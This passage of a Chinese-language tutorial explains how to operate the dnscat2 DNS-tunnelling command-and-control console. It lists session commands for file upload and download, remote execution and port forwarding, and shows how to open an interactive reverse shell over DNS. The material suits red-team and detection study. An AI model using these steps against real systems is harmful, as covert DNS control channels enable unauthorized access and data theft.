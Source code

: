    客户端回显`Session established!`

   ```bash
   sessions
   
   session -i session_id
   ```

   ```bash
   command (kali) 1> ?
   
   Here is a list of commands (use -h on any of them for additional help):
   * clear      # 清屏
   * delay      # 修改远程响应时间
   * download   # 下载文件
   * echo       
   * exec       # 执行远程机器上的程序
   * help
   * listen     # 类似于 SSH 隧道 -L 本地转发, listen 0.0.0.0:53 192.168.1.1:3389
   * ping       # 用于确认目标机器是否在线，若返回 ping ,则在线
   * quit       # 退出 dnscat2 控制台
   * set        # 设置值，例如  securuty=open
   * shell      # 新建一个交互式会话
   * shutdown   # 关机
   * suspend    # 返回上一层，相当于快捷键 `ctrl+Z`
   * tunnels   
   * unset     # 取消设置变量的值
   * upload    # 上传文件
   * window    # 连接某个通道   windwo -i id
   * windows   # 列举所有通道
   ```
   
   [![rLlbk9.md.png](https://s3.ax1x.com/2020/12/30/rLlbk9.md.png)](https://imgchr.com/i/rLlbk9)
   
   和msf差不多，可以看到已经接收到了 sesison.
   
4. 反弹shell

   dnscat2 使用的是交互模式，所有的流量都由 DNS 来处理。其使用方法和 MSF 相似。

   客户端与服务端连接后，服务端将处于交互模式，。

   ```
   session -i id    # 进入响应会话
   
   
   shell
   # 输入shell 会建立另外一和4个会话，交互模式的会话 
   ```

   

   [![rL1tnU.png](https://s3.ax1x.com/2020/12/30/rL1tnU.png)](https://imgchr.com/i/rL1tnU)

   看图即可看到 命令行会话与交互模式会话的区别，

   [![rL1fNd.png](https://s3.ax1x.com/2020/12/30/rL1fNd.png)](https://imgchr.com/i/rL1fNd)

   进入响应 交互会话。
